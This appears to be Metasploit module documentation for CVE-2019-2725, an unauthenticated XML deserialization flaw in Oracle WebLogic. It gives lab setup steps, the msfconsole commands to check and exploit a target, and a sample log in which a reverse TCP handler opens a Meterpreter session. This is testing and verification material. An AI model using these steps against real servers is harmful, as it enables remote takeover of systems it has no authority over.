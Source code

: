 ## Vulnerable Application

CVE-2019-2725 exploits an XML deserialization vulnerability in Oracle WebLogic via the AsyncResponseService component.
The exploit provides an unauthenticated attacker with remote arbitrary command execution.

Oracle Weblogic runs as a Java-based service in Windows, Linux, and Unix environments.
It is downloadable from Oracle once registered for an account.
For testing vulnerable environments, we used Weblogic 10.3.6 for Ubuntu (`wls1036_linux32.bin`),
Weblogic 10.3.6 for Windows (`wls1036_dev.zip`).
For testing a non-vulnerable environment, we used Weblogic 12.2.1.2 (`fmw_12.2.1.2.0_wls.jar`)
in combination with a JDK (`jdk-8u211-windows-x64.exe`).

## Verification Steps

### Install the application

  1. Install the application using the binaries above, with both a WebLogic server and an admin server.
  2. When prompted, name the project `base_domain`.
  3. When prompted, use a development environment instead of a production environment.
  4. When prompted, keep the default port of TCP/7001.
  5. When prompted, provide a username and password, and make a note of them.
  6. Upon completion of the installer, find and execute the admin server.
  On Windows:
  `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd`.
  On Linux: `~/Oracle/Middleware/user_projects/base_domain/bin/startWebLogic.sh`
  7. You may be prompted for the username and password you generated during the install process.
  8. Wait for the output: `<Server state changed to RUNNING.>`

### Checking for the vulnerability

  1. Start msfconsole
  2. `use exploit/multi/misc/weblogic_deserialize_asyncresponseservice`
  3. Configure RHOSTS to the target address, and set RPORT if the default port is not being used.
  4. Run the `check` method to confirm exploitability.
  5. Look for the following output:

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > check
[+] 172.16.135.128:8088 - The target is vulnerable.
```

### Exploiting the vulnerability

  1. Follow the steps in the previous "checking" section.
  2. Set the operating system of the target (eg. `set TARGET Windows`)
  3. Configure the payload and payload parameters.
  4. `run`

## Options

  **TARGETURI** : Set this to the AsyncResponseService uri, normally it should be `/_async/asyncresponseservice`.
  You can also set `VHOST` instead to handle virtual hosts.

## Scenarios

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Generating payload...
[*] Sending payload...
[*] Sending stage (179779 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49266) at 2019-05-22 14:16:03 -0500

meterpreter >
```
